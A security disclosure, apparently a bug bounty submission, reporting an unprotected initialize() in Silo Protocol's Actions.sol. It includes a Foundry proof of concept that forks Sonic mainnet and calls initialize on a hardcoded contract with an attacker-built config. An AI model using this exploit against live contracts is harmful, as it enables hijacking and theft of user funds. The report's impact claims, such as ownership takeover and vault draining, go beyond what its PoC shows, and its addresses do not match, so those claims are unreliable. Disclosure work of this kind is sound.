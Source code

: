 **Contract hijack via unprotected initialize in Actions.sol**

_Bug Severity:_ Critical 

_Target:_ https://sonicscan.org/address/0x435Ab368F5fCCcc71554f4A8ac5F5b922bC4Dc06?utm_source=immunefi#code#F10#L43-53





**Summary:**

The Actions.sol contract acts as a middleware within the Silo Protocol. When a user interacts with core functions such as deposit or withdraw, the main protocol delegates responsibilities to this contract. This includes critical tasks such as:

- Calling accrueInterest()

- Managing reentrancy protection

- Interacting with vaults that handle funds

- Fetching shareToken and asset addresses

- Managing the hookReceiver


However, the initialize() function in Actions.sol is unprotected. It is publicly callable and lacks any access control (e.g., onlyOwner or initializer modifiers). This allows any attacker to hijack the contract, configure it with a malicious SiloConfig, and gain full control over the logic execution of the entire protocol.

Furthermore, the contract appears to have never been initialized, which makes this attack feasible on mainnet.



```solidity
// Actions.sol
    /// @notice Initialize Silo
    /// @param _siloConfig Address of ISiloConfig with full configuration for this Silo
    /// @return hookReceiver Address of the hook receiver for the silo
@audit-bug--> // ⚠️ BUG: Missing initialize call 
    function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver) {
        IShareToken.ShareTokenStorage storage _sharedStorage = ShareTokenLib.getShareTokenStorage();

        require(address(_sharedStorage.siloConfig) == address(0), ISilo.SiloInitialized());

        ISiloConfig.ConfigData memory configData = _siloConfig.getConfig(address(this));

        _sharedStorage.siloConfig = _siloConfig;

        return configData.hookReceiver;
    }
```






**Impact:**

- Attacker can fully hijack the Actions.sol contract by calling initialize() with malicious config.

- The attacker can point hookReceiver, shareToken, and other vault interactions to addresses under their control.

- This allows arbitrary logic injection into protocol flows, including vault draining and disabling of reentrancy protection.

- Once hijacked, the protocol team cannot reclaim the contract, leading to permanent loss of control and user funds.





**Recommendation:**

- Protect the initialize() function with an onlyOwner or initializer modifier.

- Ensure the contract is properly initialized during deployment and can never be re-initialized.

- Consider deploying an upgrade or mitigation if the contract is already vulnerable on mainnet.





**Proof Of Concept (POC)**

The below PoC shows how an attacker called initialize function with malicious siloConfig, fake hook receiver, shareToken and malicious vaults, finally the attacker became the owner of the Actions.sol contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

interface ISiloConfig {
    struct ConfigData {
        address hookReceiver;
        address silo;
    }

    function getConfig(address silo) external view returns (ConfigData memory);
}

interface IActions {
    function initialize(ISiloConfig _siloConfig) external returns (address hookReceiver);
}

contract MaliciousSiloConfig is ISiloConfig {
    function getConfig(address) external pure override returns (ConfigData memory) {
        return ConfigData({
            hookReceiver: address(0xdeadbeef),  // just test value
            silo: address(0x12345678)          // just test value
        });
    }
}

contract SiloActionsInitialize is Test {
    address constant ACTIONS = 0x1F13CcDBd7cB2021e499D23478Dc292d48211c04;

    MaliciousSiloConfig maliciousConfig;

    function setUp() public {
        vm.createSelectFork(vm.envString("SONIC_RPC_URL"), 34402746);

        // deploy mock silo config
        maliciousConfig = new MaliciousSiloConfig();
    }

    function test_Initialize() public {
        // try to initialize with attacker-controlled config
        (bool success, bytes memory data) = ACTIONS.call(
            abi.encodeWithSelector(
                IActions.initialize.selector,
                maliciousConfig
            )
        );

        require(success, string(data));
    }
}
```

**PoC Output:**

![PoC](https://github.com/user-attachments/assets/c6ea656d-9920-4c57-81a8-05b07e3ccdeb)

